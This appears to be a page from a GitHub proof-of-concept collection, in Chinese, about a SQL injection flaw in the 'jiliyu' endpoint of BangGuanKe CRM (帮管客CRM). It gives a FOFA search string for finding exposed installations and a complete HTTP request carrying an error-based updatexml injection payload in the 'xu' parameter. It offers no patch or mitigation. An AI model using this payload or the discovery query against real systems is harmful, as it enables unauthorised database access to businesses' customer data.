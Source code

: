 ## 帮管客CRM-jiliyu接口存在SQL漏洞

帮管客CRM客户管理系统专注于为企业提供crm客户关系管理、crm管理系统、crm软件产品及企业销售管理流程解决方案服务,助力企业业绩增长。帮管客CRM jiliyu接口存在SQL漏洞

## fofa
```
"帮管客-CRM"
```

## poc
```
GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=激励语列表&xu=and%201=(updatexml(1,concat(0x7f,(select%20md5(1)),0x7f),1)) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](https://github.com/wy876/POC/assets/139549762/3c45eb31-aae1-4dc3-9f96-c1dfa449afbe)
